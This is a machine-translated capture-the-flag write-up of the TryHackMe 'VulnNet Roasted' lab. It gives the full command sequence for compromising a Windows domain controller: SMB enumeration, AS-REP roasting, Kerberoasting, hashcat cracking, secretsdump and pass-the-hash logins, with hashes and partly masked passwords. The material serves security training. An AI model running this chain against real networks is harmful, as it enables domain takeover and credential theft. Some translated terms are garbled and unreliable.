



# THM 报道:VulnNet 烘焙

> 原文：<https://infosecwriteups.com/thm-writeup-vulnnet-roasted-8f4e18314ca7?source=collection_archive---------0----------------------->


[挑战形象。](https://tryhackme-images.s3.amazonaws.com/room-icons/ef0d67108825cb45ab4f5644299de169.png)

在本文中，我通过枚举运行在开放端口上的服务和利用 Kerberos 特性来提升我的权限，逐步完成了利用域控制器的过程。这个挑战在 TryHackMe 平台上有，题目是“**VulnNet baked**，由用户“ *SkyWaves* 创建。

# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透** **。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再回来写这篇文章，你会更喜欢这个挑战。因此，没有任何进一步的拖延，让我们开始吧！**

# 挑战描述

> VulnNet Entertainment 刚刚与新雇佣的系统管理员一起在他们的网络上部署了一个新实例。作为一家有安全意识的公司，他们一如既往地雇佣你进行渗透测试，并观察系统管理员的表现。

# 端口枚举

我开始通过用 **NMAP** 执行快速扫描来枚举目标机器，以识别任何打开的端口。

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -Pn -oN all-ports-nmap-report 10.10.114.63PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 125
88/tcp    open  kerberos-sec     syn-ack ttl 125
135/tcp   open  msrpc            syn-ack ttl 125
139/tcp   open  netbios-ssn      syn-ack ttl 125
389/tcp   open  ldap             syn-ack ttl 125
445/tcp   open  microsoft-ds     syn-ack ttl 125
464/tcp   open  kpasswd5         syn-ack ttl 125
593/tcp   open  http-rpc-epmap   syn-ack ttl 125
3268/tcp  open  globalcatLDAP    syn-ack ttl 125
3269/tcp  open  globalcatLDAPssl syn-ack ttl 125
5985/tcp  open  wsman            syn-ack ttl 125
49665/tcp open  unknown          syn-ack ttl 125
49668/tcp open  unknown          syn-ack ttl 125
49670/tcp open  unknown          syn-ack ttl 125
49672/tcp open  unknown          syn-ack ttl 125
49680/tcp open  unknown          syn-ack ttl 125
49713/tcp open  unknown          syn-ack ttl 125
```

查看输出，我可以看到有 17 个端口打开。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用的 NSE 脚本来查找我可以利用的任何常见漏洞。

```
nmap -sV -sC -Pn -v -oN nmap-report -p 53,88,135,139,389,445,464,593,3268,3269,5985,49665,49668,49670,49672,49680,49713 10.10.197.14
```

我可以看到 NMAP 的大量输出和一些有趣的服务，我可以进一步列举。

# SMB 枚举

我可以看到端口 139 和 445 是打开的。使用 **smbclient** ，我可以看到匿名访问被启用，允许我列出目标机器上的共享设置。

```
smbclient -L //10.10.222.122 -NSharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share 
VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
```

使用 smbclient，我开始检查我可以访问哪些共享。我发现 **IPC$** 共享是可访问的，这表明我可以用 **crackmapexec** 执行用户枚举。

```
crackmapexec smb 10.10.222.122 -u 'guest' -p '' --rid-brute
```

使用 **crackmapexec** ，我能够枚举目标机器上设置的用户帐户列表。

```
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

接下来，我检查了**VulnNet-Business-Anonymous**和**VulnNet-Enterprise-Anonymous**共享，发现了多个文本文件。

```
smbclient //10.10.197.14/VulnNet-Business-Anonymous -N

smb: \> ls

  Business-Manager.txt         A      758  Fri Mar 12 01:24:34 2021
  Business-Sections.txt        A      654  Fri Mar 12 01:24:34 2021
  Business-Tracking.txt        A      471  Fri Mar 12 01:24:34 2021 smbclient //10.10.197.14/VulnNet-Enterprise-Anonymous -N

smb: \> ls

  Enterprise-Operations.txt    A      467  Fri Mar 12 01:24:34 2021
  Enterprise-Safety.txt        A      503  Fri Mar 12 01:24:34 2021
  Enterprise-Sync.txt          A      496  Fri Mar 12 01:24:34 2021
```

这些文件包含为该组织工作的不同员工的姓名，并确认之前发现的用户帐户是有效的。

```
Alexa Whitehat      (i.e. a-whitehat)
Jack Goldenhand     (i.e. j-goldenhand)
Tony Skid           (i.e. t-skid)
Johnny Leet         (i.e. j-leet)
```

# Kerberos 开发

现在我有了一些潜在的用户名，我开始寻找发现这些帐户凭证的方法。在我们之前的 NMAP 扫描中，我看到 Kerberos 在端口 88 上运行，由于房间的标题很大程度上暗示了 Kerberos 认证，我认为这是一个很好的起点。

```
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-03 10:33:32Z)
```

## as 重新发布

当用户帐户拥有特权“*不需要预认证*”集时，会发生重新发布。这意味着在请求指定用户帐户上的 Kerberos 票证之前，帐户不需要提供有效的身份证明。

我们可以在 [Impacket](https://github.com/SecureAuthCorp/impacket) 中使用一个名为“ **GetNPUsers.py** 的工具来检索 Kerberos 票据。这允许我们从密钥分发中心查询可恢复的帐户。查询帐户唯一需要的是一组有效的用户名，我们之前在 SMB 枚举中已经列举过了。

```
python3 GetNPUsers.py vulnnet-rst.local/ -dc-ip 10.10.222.122 -usersfile userlist -no-pass -request -outputfile kerberos-users-found
```

运行“GetNPUsers.py”后，我看到可以从 **t-skid** 用户账号查询一张没有密码的票。

```
$krb5asrep$23$**t-skid**@VULNNET-RST.LOCAL:6ba0665d5efd839cae9593ef6825e36a$1e89ab87b72c3f1ac5e979b26f7b71bef98bef016ae7087758edb0b7fee96c2d1e02c1cc2565713476b955b085f6cbfb96ee7229e0ba6343ffda44d615af7a1768f59e07d77b957f68f3da1a07fcd3a874f2518123691524f3be3fa195b8e1428bdc4322c152c342ba8b7de80d455ba53f611e132dae11ad5833db482d8526ddeb5ac09533391f7b3828bdfd90f8447278618dcabfe64a15d0a708547f46537df8632e603b214e3e4f038a4929283b35742f88af89f13615e7cedfd1b83ea73ecb95a41f6c4edf32fbae23eaaf5c018efcc694393272c1f04a835551b0b358344b0564b702971ac298e76fa2c7a7f21add1cd13f48b7
```

接下来，我们可以使用 **hashcat** 来破解从 KDC 中检索到的“ *Kerberos 5 AS-REP type 23* ”哈希。

```
hashcat64.exe -m 18200 -a 0 hash.txt rockyou.txt -o cracked.txt<hash>:tj07*****
```

## Kerberoasting

现在我有了一组标准用户凭证，我开始寻找支持的**服务主体名称(SPN)**，并使用 Impacket 中的" **GetUserSPNs** "工具为 SPN 获取**票据授予服务(TGS)** 。

```
python3 GetUserSPNs.py vulnnet-rst.local/t-skid:tj0******* -dc-ip 10.10.5.146 -request
```

这是成功的，我能够检索用户 **enterprise-core-vn** 的 TGS 散列。

```
$krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$vulnnet-rst.local/enterprise-core-vn*$6abf4cc44a39bdcd4105132ce2de79e2$94ceaec59d8fd2d6fc7e78163f5dec76f9d3d7d36f3ba72611c13023d17b1f58beb790bd1b8059235768103a637044b078084ccec48d415bf4c663bfd149f30f83e0478dbfa3c9533bca86bdb904fc8241fa66afd97f377c5e2e0113db73e2717435076243a9474c8b417b888d0de8eaa945119c9fa3613391b3ecf4226c1e94daadaa14dadfc3aae24047f1a828ef853322cec2b40afc43afc0f17832512ac671575525e95af19c1a7fae625f1c1be49caa84f927c84a39464387cb448caa738a75ac31a2c29f912faeaefa2091daf9182eb8551f06dc5160df89dd445e9c74127070827233af07d58df6a759727ccef8b8acb9982af7857d262f768dc330e4eea21e9e1c575ba90a7dca7d4be17fdc8c1c1c9d3603d877b022887e483f63538f5b794d32c4e7708fa8ed8b35e2aae0fd0f762acd690d44be1b142507142fa654aeda87906bdfc8ba6b81dbe6dc1be8d1331ea178e3a5f739eb2eb35207f946c91471e7a75c11616029b85d36ad2ed9c6135090bcb32416b81da0305bfa9c8a905c29a6ca3759ede8f96f18be22652d287b64ce6d7447b75d63136511c913930b9e1962cede06fde63001a7b70e3d16909a429a73c30f5e751c99c1d17a4521ac5aa1eaffa6746de8accb8312996689b86cfb94a898d066602e68512f865229511549eb30dbac994b543e1977b9105d19e0fef3982c4d7a71ae86d69429c9c19f2f330140cdf30e5231a82537626879950f988a074572c9273b2117c0c4497cab2f97b72aef6ef05658b9968bfffb91c21a7245e1a3b80f40f7177acd5d1062bc62d21c2874f62bd3cb4e48226037941c354a0017cec4434de5ccfd0791eed3fd4ed20f8e64c4b702bbb32526cf110e9f62a77c51d7f0607b9634b6b468fd864de6e440ae88d00b6c0381f1df8d17c53493ac66234e0f2195f83883e0bd015e0e26d324881c8674cdc7cf5e9c8ae72a95ff1fc72ddb4a14bbea1cd378c234350c97b638cd2e048f0b6c90df243d0fb3f9837d7baab629be6e6151a2c5bb366efb672b13884d071be58233768f4bf37bab374691af67cf0de44b92a182f5676e41ec44c56bb69419205523aad19cc9e5eae7401bebb2d694314d6118ef0fafde6c44c9e92c590e897bd8788cff0cf5b2184bcb284a7b78be8800fc46274296c1824c6a83da9f4e50f5f7f678a732d6ba3a55e14cad912ca53aa25eb9f3f327a1d4c22dccf26f37b9cc221fae2f36e3eba0722cf07570384fcb721b6762e6c7603ac0861755a59e5e52e2714fc0d9270e88e7c9629db8ae7027f8b23c0650d725d4153b5eb32395f1f56afad711bf691740ff5b554648a0553d2c66474b53129f7f26a581c4f339bb079f7770c5c3ced0f3f4615f3a535b81e26c26f385
```

我现在可以使用 **hashcat** 来检索这个用户帐户的密码。

```
hashcat64.exe -m 13100 hash.txt rockyou.txt
```



Kerberos TGS 哈希密码。

有了这组新的凭证，我就能够使用 **evil-winrm** 登录并检索用户标志。

```
evil-winrm -u 'enterprise-core-vn' -p '*******' -i 10.10.128.52 -N
```



用户标志。

# 权限提升

我开始使用我新创建的远程 shell 在目标机器上执行一些手动枚举，但是我没有发现任何可以利用的 windows 特权。我决定回头对 NMAP 确定的服务进行一些进一步的列举。以前，我无法使用匿名登录访问一些 SMB 共享。我使用 **enterprise-core-vn** 帐户凭证再次枚举 SMB 共享，发现了一个有趣的 VBS 文件。

```
smbclient //10.10.128.52/SYSVOL -U enterprise-core-vn

smb: \> cd vulnnet-rst.local\scripts\
smb: \vulnnet-rst.local\scripts\> ls

  ResetPassword.vbs           A     2821  Tue Mar 16 23:18:14 2021smb: \vulnnet-rst.local\scripts\> get ResetPassword.vbs
```

回顾 VBS 脚本，我可以看到用户帐户的凭证。

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkj******"
```

我尝试使用 evil-winrm，但是 a-whitehat 用户帐户没有必要的权限。我尝试枚举 SMB 共享，发现我对这些共享具有读/写权限，包括 **ADMIN$** 共享。我决定使用“ **secretsdump.py** ”为 DC 机器上的所有用户转储 NTLM 散列。

```
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKV***** @10.10.128.52[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
**Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747a******************:::**
```

我能够获得管理员帐户的散列，并使用 evil-winrm 登录并获得根标志。

```
evil-winrm -u Administrator -H <hash> -i 10.10.128.52 -N
```



根标志。

# 最后的想法

我真的很喜欢在这个房间里工作，并且有机会学习更多关于通过 Kerberos 利用 Active Directory 域控制器的知识。该挑战有一个很好的进展，需要良好的 SMB 枚举技能来找到所有凭据。谢谢你一直读到最后，继续黑下去😄！

[](https://tryhackme.com) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com)